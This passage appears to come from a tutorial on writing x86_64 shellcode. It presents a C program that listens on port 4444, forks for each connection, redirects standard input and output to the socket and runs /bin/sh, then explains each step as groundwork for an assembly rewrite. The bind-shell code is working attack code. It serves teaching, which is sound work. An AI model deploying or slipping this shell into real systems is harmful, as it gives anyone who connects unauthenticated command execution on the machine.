 ```
// dup2-shellcode.c
#include <sys/socket.h>
#include <netinet/in.h>
#include <unistd.h>

void main(void)
{
    int sockfd, newsockfd, portno, pid;
    struct sockaddr_in serv_addr;

    sockfd = socket(AF_INET, SOCK_STREAM, 0);

    portno = 4444;
    serv_addr.sin_family = AF_INET;
    serv_addr.sin_port = htons(portno);

    bind(sockfd, (struct sockaddr *) &serv_addr, sizeof(serv_addr));

    listen(sockfd, 5);

    while(1)
    {
        newsockfd = accept(sockfd, 0, 0);

        if( (pid = fork()) == 0 )
        {
            dup2(newsockfd, 0); // bind stdin
            dup2(newsockfd, 1); // bind stdout
            dup2(newsockfd, 2); // bind stderr

            execve("/bin/sh", 0, 0);
        }
    }
}

```

I'm setting up a server that listens on port `4444`. When a client connects, the program accepts the connection and forks. If it's the child, it goes on to call `dup2` for `stdin`, `stdout` and `stderr` to close those files and reset them to the accepted socket's file descriptor. Then the child process runs `execve` and becomes `/bin/sh`. Now the client has a remote shell to interact with.

To get an idea of what the assembly will need to look like, we can get the compiler to generate some assembly by doing:

```bash
$ gcc -fpic -S dup2-shellcode.c
```

and then look at `dup2-shellcode.s`. Instead of showing that here, I'll jump ahead to my x86_64 rewrite of the `C` code above. The biggest difference between it and the `C` code is that it doesn't make any function calls. Instead, it relies exclusively on system calls. I should point out that the calling convention for syscalls is slightly different than for function calls in x86_64, but for the syscalls I'll be making, they are equivalent.
